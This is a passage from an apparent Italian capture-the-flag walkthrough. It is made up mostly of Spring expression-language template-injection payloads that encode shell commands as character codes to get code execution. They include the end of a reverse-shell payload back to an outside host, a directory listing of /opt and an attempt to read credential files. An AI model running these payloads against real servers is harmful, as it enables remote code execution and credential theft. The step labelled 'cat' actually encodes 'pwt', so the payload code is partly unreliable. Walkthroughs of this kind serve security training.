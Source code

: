 -   .concat(T(java.lang.Character).toString(46))
-   .concat(T(java.lang.Character).toString(49))
-   .concat(T(java.lang.Character).toString(53))
-   .concat(T(java.lang.Character).toString(47))
-   .concat(T(java.lang.Character).toString(51))
-   .concat(T(java.lang.Character).toString(54))
-   .concat(T(java.lang.Character).toString(52))
-   .concat(T(java.lang.Character).toString(55))
-   .concat(T(java.lang.Character).toString(32))
-   .concat(T(java.lang.Character).toString(48))
-   .concat(T(java.lang.Character).toString(62))
-   .concat(T(java.lang.Character).toString(38))
-   .concat(T(java.lang.Character).toString(49))
-   ).getInputStream())}

9) Dato che la reverse shell non funziona  proviamo a cercare le credenziali nella directory  /opt/ 
10) Iniziamo assemblando il comando: ls /opt/
-  *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime()
-   .exec(T(java.lang.Character).toString(108)
-  .concat(T(java.lang.Character).toString(115))
-  .concat(T(java.lang.Character).toString(32))
-  .concat(T(java.lang.Character).toString(47))  --> /
-  .concat(T(java.lang.Character).toString(111))
-  .concat(T(java.lang.Character).toString(112))
-  .concat(T(java.lang.Character).toString(116))
-  .concat(T(java.lang.Character).toString(47))
-   ).getInputStream())}

 *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(108).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(47))).getInputStream())}

--> Troviamo le seguenti directory:
   --> cleanup.sh 
   --> credit-score 
   --> maven 
   --> panda_search

11)  Ora apriamo il file credit-score, il comando è cat   /opt/credit-score:
-  *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime()
-   .exec(T(java.lang.Character).toString(112)
-  .concat(T(java.lang.Character).toString(119))
-  .concat(T(java.lang.Character).toString(116))
-  .concat(T(java.lang.Character).toString(32))
-  .concat(T(java.lang.Character).toString(47))  --> /
-  .concat(T(java.lang.Character).toString(111))
-  .concat(T(java.lang.Character).toString(112))
-  .concat(T(java.lang.Character).toString(116))
-  .concat(T(java.lang.Character).toString(47))    --> /
-  .concat(T(java.lang.Character).toString(99))
-  .concat(T(java.lang.Character).toString(114))
- .concat(T(java.lang.Character).toString(101))
- .concat(T(java.lang.Character).toString(100))
- .concat(T(java.lang.Character).toString(105))
- .concat(T(java.lang.Character).toString(116))
- .concat(T(java.lang.Character).toString(45))
- .concat(T(java.lang.Character).toString(115))
- .concat(T(java.lang.Character).toString(99))
- .concat(T(java.lang.Character).toString(111))
- .concat(T(java.lang.Character).toString(114))
- .concat(T(java.lang.Character).toString(101))
-   ).getInputStream())}
